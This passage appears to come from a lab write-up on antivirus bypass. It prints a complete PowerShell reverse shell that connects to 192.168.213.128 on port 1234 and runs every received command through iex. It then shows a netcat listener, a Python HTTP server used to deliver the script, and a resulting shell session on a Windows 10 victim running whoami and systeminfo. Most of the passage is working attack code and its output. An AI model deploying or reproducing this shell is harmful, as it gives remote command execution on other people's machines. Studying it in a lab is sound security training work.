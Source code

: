 save it as /root/Desktop/AVBypass/obfuscated.ps1

```powershell
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.213.128',1234));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
```

```
┌──(root㉿kali)-[~/Desktop/AVBypass]
└─# pwd 
/root/Desktop/AVBypass
                                                                                                                    
┌──(root㉿kali)-[~/Desktop/AVBypass]
└─# ls    
Invoke-Obfuscation  obfuscated.ps1  shell.ps1
                                                                                                                    
┌──(root㉿kali)-[~/Desktop/AVBypass]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![2023-05-23 223727.png](/img/in-post/ine/2023-05-23-223727.png)

![2023-05-23 224036.png](/img/in-post/ine/2023-05-23-224036.png)

```
http://192.168.213.128/
```

Download obfuscated.ps1.

![2023-05-23 224529.png](/img/in-post/ine/2023-05-23-224529.png)

![2023-05-23 224837.png](/img/in-post/ine/2023-05-23-224837.png)

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.213.128] from (UNKNOWN) [192.168.213.133] 49868

PS C:\Users\Nahida\Downloads> whoami
desktop-6v32uca\nahida
PS C:\Users\Nahida\Downloads> systeminfo

???:           DESKTOP-6V32UCA
OS ??:          Microsoft Windows 10 ??? LTSC
OS ??:          10.0.19044 ?? Build 19044
OS ???:        Microsoft Corporation
OS ??:          ?????
OS ????:      Multiprocessor Free
??????:     Windows ??
?????:       
?? ID:          00425-00000-00002-AA274
??????:     2023/5/23, 10:06:52
??????:     2023/5/23, 22:03:24
```